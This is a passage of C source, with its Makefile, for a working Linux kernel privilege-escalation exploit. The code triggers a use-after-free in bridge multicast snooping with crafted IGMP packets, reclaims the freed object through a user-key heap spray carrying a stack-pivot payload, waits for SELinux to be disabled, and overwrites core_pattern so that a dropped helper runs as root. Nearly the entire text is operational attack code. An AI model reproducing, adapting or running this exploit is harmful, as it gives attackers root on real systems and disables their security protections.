    int self = open("/proc/self/exe", O_RDONLY);
    int helper = open("/tmp/.a397-helper",
                      O_WRONLY | O_CREAT | O_TRUNC, 0700);

    if (self < 0 || helper < 0)
        _exit(1);
    if (sendfile(helper, self, NULL, 1U << 30) < 0)
        _exit(1);
    if (fchmod(helper, 0755) < 0)
        _exit(1);
    close(helper);
    close(self);
}

static int selinux_is_disabled(void)
{
    char enforcing = '1';
    int fd = open("/sys/fs/selinux/enforce", O_RDONLY);

    if (fd < 0)
        return 0;
    (void)!read(fd, &enforcing, 1);
    close(fd);
    return enforcing == '0';
}

static void watch_payload_ready(void)
{
    int fd;
    const char pattern[] = "|/tmp/.a397-helper %P";

    pin_cpu(0);
    if (access("/tmp/.a397-helper", X_OK) < 0)
        prepare_regular_helper();
    while (!selinux_is_disabled())
        usleep(10000);
    puts("[+] selinux enforcing is disabled");
    while ((fd = open("/proc/sys/kernel/core_pattern", O_WRONLY)) < 0)
        usleep(10000);
    if (write(fd, pattern, sizeof(pattern) - 1) < 0)
        _exit(1);
    close(fd);
    (void)!write(won_pipe[1], "W", 1);
    puts("[+] core_pattern is writable");

    if (!fork()) {
        *(volatile unsigned long *)0 = 0;
        _exit(1);
    }
    sleep(5);
    _exit(0);
}

struct nl_buffer {
    char data[4096];
    char *tail;
    struct nlattr *nest[8];
    unsigned int depth;
};

static void die(const char *what)
{
    perror(what);
    exit(EXIT_FAILURE);
}

static void write_file(const char *path, const char *value)
{
    int fd = open(path, O_WRONLY);
    if (fd < 0)
        die(path);
    if (write(fd, value, strlen(value)) != (ssize_t)strlen(value))
        die("write_file");
    close(fd);
}

static void setup_namespaces(void)
{
    char map[64];
    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWUSER) < 0)
        die("unshare userns");
    write_file("/proc/self/setgroups", "deny");
    snprintf(map, sizeof(map), "0 %u 1", uid);
    write_file("/proc/self/uid_map", map);
    snprintf(map, sizeof(map), "0 %u 1", gid);
    write_file("/proc/self/gid_map", map);
    if (unshare(CLONE_NEWNET) < 0)
        die("unshare netns");
}

static void nl_init(struct nl_buffer *msg, uint16_t type, uint16_t flags,
                    const void *payload, size_t payload_len)
{
    struct nlmsghdr *nlh;

    memset(msg, 0, sizeof(*msg));
    nlh = (struct nlmsghdr *)msg->data;
    nlh->nlmsg_type = type;
    nlh->nlmsg_flags = NLM_F_REQUEST | NLM_F_ACK | flags;
    memcpy(NLMSG_DATA(nlh), payload, payload_len);
    msg->tail = (char *)NLMSG_DATA(nlh) + NLMSG_ALIGN(payload_len);
}

static void nl_attr(struct nl_buffer *msg, uint16_t type,
                    const void *value, size_t len)
{
    struct nlattr *attr = (struct nlattr *)msg->tail;

    attr->nla_type = type;
    attr->nla_len = sizeof(*attr) + len;
    if (len)
        memcpy(attr + 1, value, len);
    msg->tail += NLA_ALIGN(attr->nla_len);
}

static void nl_nest_start(struct nl_buffer *msg, uint16_t type)
{
    struct nlattr *attr = (struct nlattr *)msg->tail;

    attr->nla_type = type;
    msg->tail += sizeof(*attr);
    msg->nest[msg->depth++] = attr;
}

static void nl_nest_end(struct nl_buffer *msg)
{
    struct nlattr *attr = msg->nest[--msg->depth];
    attr->nla_len = msg->tail - (char *)attr;
}

static int nl_send(int fd, struct nl_buffer *msg)
{
    struct nlmsghdr *nlh = (struct nlmsghdr *)msg->data;
    struct sockaddr_nl addr = { .nl_family = AF_NETLINK };
    ssize_t size;

    if (msg->depth || msg->tail > msg->data + sizeof(msg->data)) {
        errno = EOVERFLOW;
        return -1;
    }
    nlh->nlmsg_len = msg->tail - msg->data;
    size = sendto(fd, msg->data, nlh->nlmsg_len, 0,
                  (struct sockaddr *)&addr, sizeof(addr));
    if (size != (ssize_t)nlh->nlmsg_len)
        return -1;

    size = recv(fd, msg->data, sizeof(msg->data), 0);
    if (size < (ssize_t)(NLMSG_HDRLEN + sizeof(struct nlmsgerr)))
        return -1;
    nlh = (struct nlmsghdr *)msg->data;
    if (nlh->nlmsg_type != NLMSG_ERROR) {
        errno = EPROTO;
        return -1;
    }
    errno = -((struct nlmsgerr *)NLMSG_DATA(nlh))->error;
    return errno ? -1 : 0;
}

static void add_bridge(int fd, const char *name)
{
    struct ifinfomsg info = { .ifi_family = AF_UNSPEC };
    struct nl_buffer msg;
    uint8_t enabled = 1;

    nl_init(&msg, RTM_NEWLINK, NLM_F_CREATE | NLM_F_EXCL,
            &info, sizeof(info));
    nl_attr(&msg, IFLA_IFNAME, name, strlen(name) + 1);
    nl_nest_start(&msg, IFLA_LINKINFO);
    nl_attr(&msg, IFLA_INFO_KIND, "bridge", sizeof("bridge"));
    nl_nest_start(&msg, IFLA_INFO_DATA);
    nl_attr(&msg, IFLA_BR_MCAST_SNOOPING, &enabled, sizeof(enabled));
    nl_nest_end(&msg);
    nl_nest_end(&msg);
    if (nl_send(fd, &msg) < 0)
        die("add bridge");
}

static void add_veth(int fd, const char *name, const char *peer)
{
    struct ifinfomsg info = { .ifi_family = AF_UNSPEC };
    struct ifinfomsg peer_info = { .ifi_family = AF_UNSPEC };
    struct nl_buffer msg;

    nl_init(&msg, RTM_NEWLINK, NLM_F_CREATE | NLM_F_EXCL,
            &info, sizeof(info));
    nl_attr(&msg, IFLA_IFNAME, name, strlen(name) + 1);
    nl_nest_start(&msg, IFLA_LINKINFO);
    nl_attr(&msg, IFLA_INFO_KIND, "veth", sizeof("veth"));
    nl_nest_start(&msg, IFLA_INFO_DATA);
    nl_nest_start(&msg, VETH_INFO_PEER);
    memcpy(msg.tail, &peer_info, sizeof(peer_info));
    msg.tail += NLMSG_ALIGN(sizeof(peer_info));
    nl_attr(&msg, IFLA_IFNAME, peer, strlen(peer) + 1);
    nl_nest_end(&msg);
    nl_nest_end(&msg);
    nl_nest_end(&msg);
    if (nl_send(fd, &msg) < 0)
        die("add veth");
}

static void set_link(int fd, const char *name, int master, int up)
{
    struct ifinfomsg info = {
        .ifi_family = AF_UNSPEC,
        .ifi_index = if_nametoindex(name),
        .ifi_flags = up ? IFF_UP : 0,
        .ifi_change = up ? IFF_UP : 0,
    };
    struct nl_buffer msg;

    if (!info.ifi_index)
        die("if_nametoindex");
    nl_init(&msg, RTM_NEWLINK, 0, &info, sizeof(info));
    if (master >= 0)
        nl_attr(&msg, IFLA_MASTER, &master, sizeof(master));
    if (nl_send(fd, &msg) < 0)
        die("set link");
}

static void set_bridge_port_flags(int fd, const char *name,
                                  uint8_t fast_leave, uint8_t to_unicast)
{
    struct ifinfomsg info = {
        .ifi_family = AF_BRIDGE,
        .ifi_index = if_nametoindex(name),
    };
    struct nl_buffer msg;

    nl_init(&msg, RTM_SETLINK, 0, &info, sizeof(info));
    nl_nest_start(&msg, IFLA_PROTINFO | NLA_F_NESTED);
    nl_attr(&msg, IFLA_BRPORT_FAST_LEAVE, &fast_leave, sizeof(fast_leave));
    nl_attr(&msg, IFLA_BRPORT_MCAST_TO_UCAST, &to_unicast,
            sizeof(to_unicast));
    nl_nest_end(&msg);
    if (nl_send(fd, &msg) < 0)
        die("set bridge port flags");
}

static uint16_t checksum(const void *buffer, size_t len)
{
    const uint16_t *word = buffer;
    uint32_t sum = 0;

    while (len > 1) {
        sum += *word++;
        len -= 2;
    }
    if (len)
        sum += *(const uint8_t *)word;
    sum = (sum & 0xffff) + (sum >> 16);
    sum = (sum & 0xffff) + (sum >> 16);
    return ~sum;
}

struct igmp_packet {
    struct ethhdr eth;
    uint8_t version_ihl;
    uint8_t tos;
    uint16_t total_len;
    uint16_t id;
    uint16_t frag_off;
    uint8_t ttl;
    uint8_t protocol;
    uint16_t ip_checksum;
    uint32_t source;
    uint32_t destination;
    uint8_t router_alert[4];
    uint8_t igmp_type;
    uint8_t max_response;
    uint16_t igmp_checksum;
    uint32_t group;
} __attribute__((packed));

static void send_igmp(int packet_fd, int ifindex, const uint8_t source_mac[6],
                      const char *source_ip, int leave)
{
    static const uint8_t group_mac[6] = { 1, 0, 0x5e, 1, 1, 1 };
    static const uint8_t routers_mac[6] = { 1, 0, 0x5e, 0, 0, 2 };
    struct sockaddr_ll address = {
        .sll_family = AF_PACKET,
        .sll_protocol = htons(ETH_P_IP),
        .sll_ifindex = ifindex,
        .sll_halen = ETH_ALEN,
    };
    struct igmp_packet packet;
    const uint8_t *destination_mac = leave ? routers_mac : group_mac;

    memset(&packet, 0, sizeof(packet));
    memcpy(packet.eth.h_source, source_mac, ETH_ALEN);
    memcpy(packet.eth.h_dest, destination_mac, ETH_ALEN);
    packet.eth.h_proto = htons(ETH_P_IP);
    packet.version_ihl = 0x46;
    packet.total_len = htons(sizeof(packet) - sizeof(packet.eth));
    packet.ttl = 1;
    packet.protocol = IPPROTO_IGMP;
    if (inet_pton(AF_INET, source_ip, &packet.source) != 1)
        die("inet_pton source");
    if (inet_pton(AF_INET, leave ? "224.0.0.2" : "239.1.1.1",
                  &packet.destination) != 1)
        die("inet_pton destination");
    packet.router_alert[0] = 0x94;
    packet.router_alert[1] = 0x04;
    packet.ip_checksum = checksum(&packet.version_ihl,
                                  sizeof(packet) - sizeof(packet.eth) - 8);
    packet.igmp_type = leave ? 0x17 : 0x16;
    if (inet_pton(AF_INET, "239.1.1.1", &packet.group) != 1)
        die("inet_pton group");
    packet.igmp_checksum = checksum(&packet.igmp_type, 8);
    memcpy(address.sll_addr, destination_mac, ETH_ALEN);
    if (__atomic_exchange_n(&spray_epoch_armed, 0, __ATOMIC_ACQ_REL)) {
        struct timespec epoch;

        clock_gettime(CLOCK_MONOTONIC, &epoch);
        __atomic_store_n(&spray_epoch_ns,
                         (long long)epoch.tv_sec * 1000000000LL +
                             epoch.tv_nsec,
                         __ATOMIC_RELEASE);
    }
    if (sendto(packet_fd, &packet, sizeof(packet), 0,
               (struct sockaddr *)&address, sizeof(address)) != sizeof(packet))
        die("sendto IGMP");
}

struct spray_arg {
    int cpu;
    int first;
    unsigned char payload[USER_PAYLOAD_LEN];
};

static long key_serials[SPRAY_PER_CPU * 2];
static struct spray_arg spray_args[2];
static pthread_t spray_threads[2];
static int spray_ready[2];
static int spray_go[2];
static int spray_success[2];
static int spray_failure[2];

static void prepare_spray_keys(void)
{
    char description[64];
    unsigned char byte = 0;

    for (int i = 0; i < (int)ARRAY_SIZE(key_serials); i++) {
        snprintf(description, sizeof(description), "br-holder-%d-%d",
                 getpid(), i);
        key_serials[i] = syscall(SYS_add_key, "user", description, &byte,
                                 sizeof(byte), spray_keyring);
        if (key_serials[i] < 0)
            die("prepare add_key");
    }
    puts("[+] prepared update-only key spray");
}

static void payload_put64(unsigned char *payload, size_t object_offset,
                          uint64_t value)
{
    memcpy(payload + object_offset - PAYLOAD_OFFSET, &value, sizeof(value));
}

static void *spray_keys(void *argument)
{
    struct spray_arg *arg = argument;
    struct timespec now;
    long long deadline;
    char byte;

    pin_cpu(arg->cpu);
    if (write(spray_ready[1], "S", 1) != 1)
        return NULL;
    if (read(spray_go[0], &byte, 1) != 1)
        return NULL;
    do {
        deadline = __atomic_load_n(&spray_epoch_ns, __ATOMIC_ACQUIRE);
        asm volatile("pause");
    } while (!deadline);
    deadline += EARLY_SPRAY_DELAY_US * 1000LL;
    do {
        clock_gettime(CLOCK_MONOTONIC, &now);
    } while ((long long)now.tv_sec * 1000000000LL + now.tv_nsec < deadline);
    for (int i = 0; i < SPRAY_PER_CPU; i++) {
        int index = arg->first + i;

        if (syscall(SYS_keyctl, KEYCTL_UPDATE, key_serials[index],
                    arg->payload, sizeof(arg->payload)) < 0) {
            spray_failure[arg->cpu]++;
            fprintf(stderr, "[-] key update %d failed: %s\n",
                    index, strerror(errno));
        } else {
            spray_success[arg->cpu]++;
        }
    }
    return NULL;
}

static void check_reclaimed_key(void)
{
    unsigned char payload[USER_PAYLOAD_LEN];
    int count = ARRAY_SIZE(key_serials);

    for (int i = 0; i < count; i++) {
        long length;

        if (!key_serials[i])
            continue;
        memset(payload, 0xff, sizeof(payload));
        length = syscall(SYS_keyctl, KEYCTL_READ, key_serials[i], payload,
                         sizeof(payload));
        if (length == sizeof(payload)) {
            size_t changed = 0;

            while (changed < sizeof(payload) &&
                   payload[changed] == spray_args[0].payload[changed])
                changed++;
            if (changed != sizeof(payload)) {
                printf("[+] reclaimed/modified key %d at object offset %zu "
                       "(%#x -> %#x)\n", i, changed + PAYLOAD_OFFSET,
                       spray_args[0].payload[changed], payload[changed]);
                return;
            }
        }
    }
    puts("[-] no sprayed key observed the stale-object writes");
}

static void arm_reclaim_workers(void)
{
    char ready;

    if (pipe(spray_ready) || pipe(spray_go))
        die("pipe reclaim workers");
    memset(spray_args, 0, sizeof(spray_args));
    for (int cpu = 0; cpu < 2; cpu++) {
        spray_args[cpu].cpu = cpu;
        spray_args[cpu].first = cpu * SPRAY_PER_CPU;
        payload_put64(spray_args[cpu].payload, PG_MCAST_GC_NEXT, cea);
        payload_put64(spray_args[cpu].payload, PG_MCAST_DESTROY,
                      pivot_rbx);
        if (pthread_create(&spray_threads[cpu], NULL, spray_keys,
                           &spray_args[cpu]))
            die("pthread_create spray");
    }
    for (int cpu = 0; cpu < 2; cpu++) {
        if (read(spray_ready[0], &ready, 1) != 1)
            die("read spray ready");
    }
}

static void start_reclaim_workers(void)
{
    __atomic_store_n(&spray_epoch_ns, 0, __ATOMIC_RELEASE);
    __atomic_store_n(&spray_epoch_armed, 1, __ATOMIC_RELEASE);
    if (write(spray_go[1], "GG", 2) != 2)
        die("write spray go");
}

static void finish_reclaim_workers(void)
{
    pthread_join(spray_threads[0], NULL);
    pthread_join(spray_threads[1], NULL);
    printf("[+] user-key reclaim spray complete "
           "(cpu0 ok=%d fail=%d, cpu1 ok=%d fail=%d)\n",
           spray_success[0], spray_failure[0],
           spray_success[1], spray_failure[1]);
}

static int run_exploit(int trigger_only)
{
    static const uint8_t mac_a[6] = { 2, 0, 0, 0, 0, 0x0a };
    static const uint8_t mac_b[6] = { 2, 0, 0, 0, 0, 0x0b };
    struct sockaddr_nl local = { .nl_family = AF_NETLINK };
    int netlink_fd;
    int packet_fd;
    int bridge_index;
    struct timespec second_before;
    struct timespec second_after;
    struct timespec padding_before;
    struct timespec padding_after;
    pid_t watcher = -1;
    pid_t seeder = -1;
    char ready;

    if (!trigger_only) {
        if (pipe(stage2_ready) || pipe(won_pipe))
            die("pipe");
        watcher = fork();
        if (watcher < 0)
            die("fork watcher");
        if (!watcher)
            watch_payload_ready();
        resolve_addresses();
        pin_cpu(0);
        mlockall(MCL_CURRENT);
    }
    setup_namespaces();
    if (!trigger_only)
        prepare_spray_keys();
    netlink_fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_ROUTE);
    if (netlink_fd < 0 || bind(netlink_fd, (struct sockaddr *)&local,
                               sizeof(local)) < 0)
        die("route netlink");
    add_bridge(netlink_fd, "br0");
    add_veth(netlink_fd, "veth0", "veth0p");
    add_veth(netlink_fd, "veth1", "veth1p");
    bridge_index = if_nametoindex("br0");
    if (!bridge_index)
        die("bridge index");
    set_link(netlink_fd, "lo", -1, 1);
    set_link(netlink_fd, "br0", -1, 1);
    set_link(netlink_fd, "veth0", bridge_index, 1);
    set_link(netlink_fd, "veth0p", -1, 1);
    set_link(netlink_fd, "veth1", bridge_index, 1);
    set_link(netlink_fd, "veth1p", -1, 1);
    set_bridge_port_flags(netlink_fd, "veth0", 1, 1);
    if (!trigger_only)
        fill_kmalloc_256_freelists();

    packet_fd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (packet_fd < 0)
        die("packet socket");
    if (!trigger_only)
        pin_cpu(1);
    send_igmp(packet_fd, if_nametoindex("veth0p"), mac_a, "10.0.0.10", 0);
    send_igmp(packet_fd, if_nametoindex("veth0p"), mac_b, "10.0.0.11", 0);
    usleep(200000);
    set_bridge_port_flags(netlink_fd, "veth0", 1, 0);
    send_igmp(packet_fd, if_nametoindex("veth0p"), mac_a, "10.0.0.10", 1);
    puts("first leave sent");

    /*
     * The stale port group is still covered by its first kfree_rcu grace
     * period here.  Append live port groups behind it while its allocation
     * cannot yet be reused.  The second vulnerable walk deletes the stale
     * entry first and these live entries afterwards.  Since del_pg adds at
     * the head of mcast_gc_list, GC destroys all padding entries before it
     * reaches the reclaimed stale entry.  This converts the tiny
     * sendto-to-system_long_wq race into a scheduler-sized reclaim window.
     * Build the padding on CPU 0 so that the CPU 1 kmalloc-256 slab which
     * contains the stale object remains the allocation slab used by the
     * concurrent CPU 1 key reclaim.  The second leave itself runs on CPU 0;
     * its long deletion walk holds the multicast lock while CPU 1 replaces
     * the stale object, so the GC worker cannot consume the callback first.
     */
    if (!trigger_only) {
        pin_cpu(0);
        set_bridge_port_flags(netlink_fd, "veth0", 1, 1);
        clock_gettime(CLOCK_MONOTONIC, &padding_before);
        for (unsigned int i = 0; i < GC_PADDING_GROUPS; i++) {
            uint8_t padding_mac[6] = {
                2, 0x51, (uint8_t)(i >> 24), (uint8_t)(i >> 16),
                (uint8_t)(i >> 8), (uint8_t)i,
            };

            send_igmp(packet_fd, if_nametoindex("veth0p"), padding_mac,
                      "10.0.0.12", 0);
        }
        clock_gettime(CLOCK_MONOTONIC, &padding_after);
        set_bridge_port_flags(netlink_fd, "veth0", 1, 0);
        printf("[+] appended %u GC padding groups in %lld us\n",
               GC_PADDING_GROUPS,
               ((long long)padding_after.tv_sec * 1000000000LL +
                padding_after.tv_nsec -
                ((long long)padding_before.tv_sec * 1000000000LL +
                 padding_before.tv_nsec)) / 1000);

        seeder = fork();
        if (seeder < 0)
            die("fork stage2");
        if (!seeder)
            run_stage2();
        if (read(stage2_ready[0], &ready, 1) != 1)
            die("read stage2 ready");
        arm_reclaim_workers();
    }

    usleep(RECLAIM_DELAY_US);
    if (!trigger_only)
        start_reclaim_workers();
    clock_gettime(CLOCK_MONOTONIC, &second_before);
    send_igmp(packet_fd, if_nametoindex("veth0p"), mac_a, "10.0.0.10", 1);
    clock_gettime(CLOCK_MONOTONIC, &second_after);
    printf("[.] second leave syscall %lld -> %lld ns\n",
           (long long)second_before.tv_sec * 1000000000LL +
               second_before.tv_nsec,
           (long long)second_after.tv_sec * 1000000000LL +
               second_after.tv_nsec);
    puts("second leave sent");
    if (trigger_only) {
        sleep(6);
        return 0;
    }

    finish_reclaim_workers();
    check_reclaimed_key();
    {
        fd_set set;
        struct timeval timeout = { .tv_sec = 8 };

        FD_ZERO(&set);
        FD_SET(won_pipe[0], &set);
        if (select(won_pipe[0] + 1, &set, NULL, NULL, &timeout) > 0) {
            char proof[4096];
            int proof_fd;
            ssize_t proof_len;
            int payload_ok = 0;

            sleep(5);
            proof_fd = open("/tmp/.a397-proof", O_RDONLY);
            if (proof_fd >= 0) {
                proof_len = read(proof_fd, proof, sizeof(proof));
                if (proof_len > 0) {
                    (void)!write(STDOUT_FILENO, proof, proof_len);
                    payload_ok = 1;
                }
                close(proof_fd);
            }
            /*
             * The seeder inherited this phase's process keyring.  Once the
             * callback has reached its non-returning tail (and, in stage two,
             * the helper finished), release the seeder reference so retries
             * do not retain an otherwise idle namespace.
             */
            (void)syscall(SYS_keyctl, KEYCTL_CLEAR, spray_keyring);
            if (seeder > 0) {
                kill(seeder, SIGKILL);
                (void)waitpid(seeder, NULL, 0);
            }
            return payload_ok ? 0 : 1;
        }
    }
    fprintf(stderr, "[-] exploit timed out\n");
    if (seeder > 0)
        kill(seeder, SIGKILL);
    if (watcher > 0)
        kill(watcher, SIGKILL);
    return 1;
}

int main(int argc, char **argv)
{
    setvbuf(stdout, NULL, _IONBF, 0);
    if (argc > 1 && !strcmp(argv[1], "--leak-only")) {
        resolve_addresses();
        return 0;
    }
    if (argc > 1 && !strcmp(argv[1], "--vuln-trigger"))
        return run_exploit(1);
    if (argc > 1 && !strcmp(argv[1], "--disable-selinux"))
        return run_exploit(0);
    if (argc > 1 && !strcmp(argv[1], "--core-stage"))
        return run_exploit(0);
    if (argc > 1)
        return root_helper(argv[1]);
    return run_exploit(0);
}
```



Makefile：

```
CC := musl-gcc

CFLAGS := -O2 -Wall -Wextra -static -pthread -ffunction-sections -fdata-sections \
	-idirafter /usr/include -idirafter /usr/include/x86_64-linux-gnu
LDFLAGS := -static -pthread -s -Wl,--gc-sections

OBJECTS := exploit.o leak_fast.o

.PHONY: all run clean

all: exploit

exploit: $(OBJECTS)
	$(CC) $(LDFLAGS) $^ -o $@

exploit.o: exploit.c leak.h
	$(CC) $(CFLAGS) -c $< -o $@

leak_fast.o: leak_fast.c leak.h
	$(CC) $(CFLAGS) -c $< -o $@

run: exploit
	./exploit

clean:
	rm -f exploit $(OBJECTS)
```